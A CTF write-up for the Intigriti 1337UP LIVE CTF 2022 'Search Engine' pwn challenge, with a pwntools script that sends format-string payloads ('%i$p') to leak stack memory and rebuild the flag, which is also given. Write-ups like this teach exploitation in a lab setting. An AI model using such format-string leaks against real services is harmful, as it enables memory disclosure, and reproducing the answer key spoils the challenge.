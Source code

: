 ```yaml
---
name: Search Engine (2022)
event: Intigriti 1337UP LIVE CTF 2022
category: Pwn
description: Writeup for Search Engine (Pwn) - Intigriti 1337UP LIVE CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Search Engine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/BekVaShD9HE/0.jpg)](https://youtu.be/BekVaShD9HE "Intigriti 1337UP LIVE CTF 2022: Search Engine")

## Challenge Description

> In an attempt to block third party software, we've been using our very own search engine! It doesn't yet have every feature, but at least it's very secure!

## Solution

```py
from pwn import *

context.log_level = 'info'

flag = ''

# Let's fuzz x values
for i in range(12, 16):
    try:
        # Connect to server
        io = remote('searchengine.ctf.intigriti.io', 1337, level='warn')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Receive the response (leaked address followed by '.' in this case)
        io.recvuntil(b'No result found. You searched for - ')
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

# Print and close
info(flag)
```

Flag: `1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`
